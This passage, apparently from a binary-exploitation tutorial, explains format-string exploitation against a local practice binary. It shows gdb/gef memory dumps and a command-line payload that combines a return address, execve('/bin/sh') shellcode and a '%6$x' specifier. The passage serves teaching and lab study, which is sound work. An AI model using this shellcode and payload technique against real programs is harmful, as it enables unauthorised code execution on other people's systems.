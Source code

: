```bash
0xffffcffc:	0xf7fa8000	0x00000000	0x3b43ec89	0x7fa10a99
0xffffd00c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd01c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd02c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd03c:	0x080490d6	0x080491b6	0x00000002	0xffffd064
0xffffd04c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd05c
0xffffd05c:	0x0000001c	0x00000002	0xffffd237	0xffffd27c
0xffffd06c:	0x00000000	0xffffd29b	0xffffd2ab	0xffffd2fb
0xffffd07c:	0xffffd30d	0xffffd320	0xffffd334	0xffffd368
0xffffd08c:	0xffffd3a2	0xffffd3b8
gef➤
```

Thus we wrote the desirable value to this address.

## Exploitation

Now, it's time to show how to exploit this type of vulnerability.

The technique stays the same as with stack overflow. It is just another way to execute your shellcode.

Payload will be next: `the return address` + `shellcode` + `specifiers to overwrite the return address`. I will show on `format-string` binary again and will use exploit from stack overflow section.

We already know where the return address is, so, just place the shellcode after the address at the beginning of the input string.

```bash
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%6$x"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "%6$x"')

Breakpoint 1, 0x0804921c in main ()
gef➤  x/100wx $esp - 0x100
0xffffcedc:	0x0804920b	0xffffcef8	0xffffd28f	0x000000c8
0xffffceec:	0x080491d4	0x00000000	0x00000000	0xffffcfdc
0xffffcefc:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xffffcf0c:	0xb0e18953	0x2580cd0b	0x00782436	0x00000000
0xffffcf1c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf2c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf3c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf4c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf5c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf6c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf7c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf8c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf9c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfac:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfbc:	0x00000000	0xffffcfe0	0x00000000	0x00000000
0xffffcfcc:	0xf7ddbee5	0xf7fa8000	0xf7fa8000	0x00000000
0xffffcfdc:	0xf7ddbee5	0x00000002	0xffffd074	0xffffd080
0xffffcfec:	0xffffd004	0xf7fa8000	0x00000000	0xffffd058
0xffffcffc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffd00c:	0xf7fa8000	0x00000000	0x0cd8d390	0x483a5580
0xffffd01c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd02c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd03c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd04c:	0x080490d6	0x080491b6	0x00000002	0xffffd074
0xffffd05c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd06c
gef➤
```
